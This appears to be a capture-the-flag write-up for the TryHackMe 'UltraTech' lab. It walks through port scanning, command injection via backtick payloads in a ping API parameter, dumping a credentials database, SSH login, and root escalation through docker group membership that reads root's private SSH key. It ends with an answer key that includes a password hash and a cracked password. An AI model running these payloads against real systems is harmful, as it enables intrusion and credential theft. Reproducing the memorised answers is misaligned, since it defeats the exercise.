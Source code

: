 
# UltraTech CTF Walkthrough

UltraTech is a vulnerable server based on real-life on TryHackMe.com<br />
<br />
<i>URL: https://tryhackme.com/room/ultratech<br />
THM Difficulty: Medium<br />
My Difficulty: Medium<br />
Target IP: 10.10.39.165<br />
AttackBox IP: 10.10.157.51<br />
</i>

# Recon

For our first command we will use rustscan, rustscan will scan all of the ports in around 3 seconds.<br />
```rustscan -a 10.10.39.165```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT1.png?raw=true)<br />
Now we know which ports are open, I run an Nmap scan with the flags -sV and -sC to find the service versions and to run default scripts on the open ports.<br />
```nmap -sV -sC -p21,22,8081,31331 10.10.39.165```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT2.png?raw=true)<br />
We see 4 ports open running different services! Let's have a look into some of the services and see what we can find.<br />

## FTP Service Recon

We're going to start with FTP, let's try to connect via FTP with the anonymous account <br />
```ftp 10.10.39.165```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT3.png?raw=true)<br />
No luck there, let's move on for now.<br />

## Node.js Service Recon

We've moved onto Node.js recon, let's head over to the website http://10.10.39.165:8081 <br />
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.39.165:8081/<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT5.png?raw=true)<br />
Interesting... Let's check out the directory /auth<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT6.png?raw=true)<br />
This looks interesting... But we don't have any login details... Let's move on for now.<br />

## HTTP Service Recon

We're going to do the same steps as we did for the Node.js service recon, let's try to bruteforce some directories with gobuster<br />
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.39.165:31331/<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT4.png?raw=true)<br />
Nothing really of interest, there's an e-mail address on the contact of the bottom of the webpage, we'll save it for now.<br />

Let's see if they have a robots.txt file at http://10.10.39.165:31331/robots.txt<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT7.png?raw=true)<br />
Interesting... Let's have a look at the sitemap at http://10.10.39.165:31331/utech_sitemap.txt<br />

![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT8.png?raw=true)<br />
After having a look at all of the pages we find a login page at http://10.10.39.165:31331/partners.html<br />

![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT9.png?raw=true)<br />
Not really helpful to us since we still don't have any login information and default credentials didn't work. Let's continue looking at the other directories we got from gobuster. <br />

I came across the directory /js which had an interesting file "api.js"<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT11.png?raw=true)<br />
This file was also in the source of the login page partners.html <br />

## Looking for vulnerabilities

Let's take a loot at the api.js file
```Javascript
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();
```
We know a couple of things now, this file api.js uses the Node.js service as it's API and it's used to process the logins from /partners.html on the HTML service.<br />

There are a couple of lines in this file that made me interested, can you see them?<br />

```Javascript
const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
```
- We know that the API URL is the Node.js service http://10.10.39.165:8081<br />
- We can see that it's sending a HTTP GET request<br />
- It looks like it's performing a ping to confirm if the API is down/up so the user can login.<br />

Let's take a look at the following URL:<br />
```shell
http://10.10.39.165:8081/ping?ip=10.10.39.165
```
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT12.png?raw=true)<br />
Very interesting! This looks like the same output from a ping request sent from a Linux machine... Maybe vulnerable to command injection?<br />

## Exploiting Command Injection
What if we changed the request to something else? Let's see what happens when we try to add a list command at the end<br />
http://10.10.39.165:8081/ping?ip=10.10.39.165;ls<br />
Hm, nothing happened. Let's try that again<br />
http://10.10.39.165:8081/ping?ip=10.10.39.165;`ls` <br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT13.png?raw=true)<br />
Success! We were able to list a file "utech.db.sqlite" before we move on, let's have a look at the database file.<br />
http://10.10.39.165:8081/ping?ip=10.10.39.165;`cat utech.db.sqlite`<br />
Interesting... We've found 2 users along with their password hashes! r00t and admin<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT15.png?raw=true)<br />
Let's try to crack the hashes and see what we can do with them! We know the hashes are MD5.<br />
We've found the password now let's try to login...<br />

## SSH Service Recon
We're going to try logging into the SSH service we found earlier.<br />
```ssh r00t@10.10.39.165```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT14.png?raw=true)<br />
Success! Let's try going into /root and getting the last flag!
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT16.png?raw=true)<br />
I thought we were already root, I guess not. I try the id command which provides a general overview of the users privilege level and group memberships.<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT17.png?raw=true)<br />
Interesting, we're apart of the docker group. I may of not noticed this for about 30 minutes... Maybe we can exploit this?<br />

## Privilege Escalation

Let's try to exploit docker to get root privileges, I first checked https://gtfobins.github.io/gtfobins/docker/<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT18.png?raw=true)<br />
Awesome! Let's give the command a try and see if we get root privileges. We first need to change from alpine to bash.<br />
```docker run -v /:/mnt --rm -it bash chroot /mnt sh```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT19.png?raw=true)<br />
Success! We're now root, let's get the last flag. We need to find the root users SSH key.<br />
```cd /root/.ssh && cat id_rsa```<br />
![alt text](https://github.com/JcmniaCS/TryHackMe/blob/main/UltraTech/screenshots/SCREENSHOT20.png?raw=true)<br />

## Questions & Answers

Question 1:<br />
**Which software is using the port 8081** Node.js<br />

Question 2:<br />
**Which other non-standard port is used?** 31331<br />

Question 2:<br />
**Which software is using this port?** Apache<br />

Question 2:<br />
**Which GNU/Linux distribution seems to be used?** Ubuntu<br />

Question 2:<br />
**The software using the port 8081 is a REST api, how many of its routes are used by the web application? ** 2<br />

Question 2:<br />
**There is a database lying around, what is the filename?** utech.db.sqlite<br />

Question 2:<br />
**What is the first user's password hash?** a0c52799563c7c7b76c1e7543a32<br />

Question 2:<br />
**What is the password associated with this hash?** n100906<br />

Question 2:<br />
**What are the first 9 characters of the root users private SSH key?** MIIEogIBA<br />

### Farewell, I hope you all enjoyed this write-up!
